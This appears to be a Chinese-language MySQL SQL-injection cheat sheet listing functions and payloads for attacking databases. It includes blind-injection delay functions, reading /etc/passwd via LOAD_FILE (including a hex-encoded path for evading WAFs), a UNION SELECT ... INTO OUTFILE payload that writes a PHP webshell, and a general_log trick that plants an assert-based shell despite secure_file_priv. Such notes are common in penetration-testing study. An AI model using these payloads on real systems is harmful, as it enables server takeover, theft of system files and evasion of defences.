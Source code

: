 
## MySQL

- 子字符串：
    - `substr("abc",1,1) => 'a'`
    - `mid("abc", 1, 1)  => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `CONCAT('a', 'b') => 'ab'`
        - 如果任何一栏为NULL，则返回NULL
    - `CONCAT_WS(分隔符, 字符串1, 字符串2...)`
        - `CONCAT_WS('@', 'gg', 'inin')` => `gg@inin`
- Cast function
    - `CAST('125e342.83' AS signed) => 125`
    - `CONVERT('23',SIGNED) => 23`
- Delay function
    - `sleep(5)`
    - `BENCHMARK(count, expr)`
- 空白字元
    - `09 0A 0B 0C 0D A0 20`
- File-read function
    - `LOAD_FILE('/etc/passwd')`
- File-write
    - `INTO DUMPFILE`
        - 适用binary (写入同一行)
    - `INTO OUTFILE`
        - 适用一般文本 (有换行)
    - 写webshell
        - 需知道可写路径
        - `UNION SELECT "<? system($_GET[1]);?>",2,3 INTO OUTFILE "/var/www/html/temp/shell.php"`
    - 权限
        - `SELECT file_priv FROM mysql.user`
    - secure-file-priv
        - 限制MySQL导入导出
            - load_file, into outfile等
        - 运行时无法更改
        - MySQL 5.5.53前，该变量预设为空(可以导入导出)
        - e.g. `secure_file_priv=E:\`
            - 限制导入导出只能在E:\下
        - e.g. `secure_file_priv=null`
            - 限制不允许导入导出    
        - secure-file-priv限制下用general_log拿shell
        ```
        SET global general_log='on';

        SET global general_log_file='C:/phpStudy/WWW/cmd.php';

        SELECT '<?php assert($_POST["cmd"]);?>';
        ```
- IF语句
    - IF(condition,true-part,false-part)
    - `SELECT IF (1=1,'true','false')`
- Hex
    - `SELECT X'5061756c';  =>  paul`
    - `SELECT 0x5061756c; => paul`
    - `SELECT 0x5061756c+0 => 1348564332`
    - `SELECT load_file(0x2F6574632F706173737764);`
        - /etc/passwd
    - 可绕过一些WAF
        - e.g. 用在不能使用单引号时(`'` => `\'`)
         - CHAR()也可以达到类似效果
